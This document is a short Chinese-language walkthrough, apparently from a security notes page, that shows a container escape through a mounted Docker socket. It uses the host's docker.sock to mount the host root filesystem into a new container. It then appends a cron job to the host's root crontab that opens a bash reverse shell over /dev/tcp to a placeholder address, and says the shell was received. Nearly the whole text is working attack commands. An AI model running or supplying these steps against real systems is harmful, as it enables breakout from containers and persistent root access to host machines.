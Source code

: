 1. 首先运行一个挂载 `/var/run/` 的容器
    ```bash
    docker pull ubuntu:18.04
    docker run -it -v /var/run/:/host/var/run/ ubuntu:18.04 /bin/bash
    ```

2. 寻找下挂载的 sock 文件
    ```bash
    find / -name docker.sock
    ```

3. 在容器内安装 Docker 作为 client
    ```bash
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" > /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    apt-get update
    apt-get install docker.io vim

    echo "nameserver 114.114.114.114" > /etc/resolv.conf
    ```

4. 查看宿主机 docker 信息
    ```bash
    docker -H unix:///host/var/run/docker.sock info
    ```

5. 运行一个新容器并挂载宿主机根路径
    ```bash
    docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash
    ```

6. 在新容器 /aa 路径下完成对宿主机资源的访问,写入计划任务文件，反弹 shell
    ```bash
    cd /aa
    ls
    echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/9988 0>&1' >> /aa/var/spool/cron/root
    ```
    成功接收到宿主机反弹的 shell
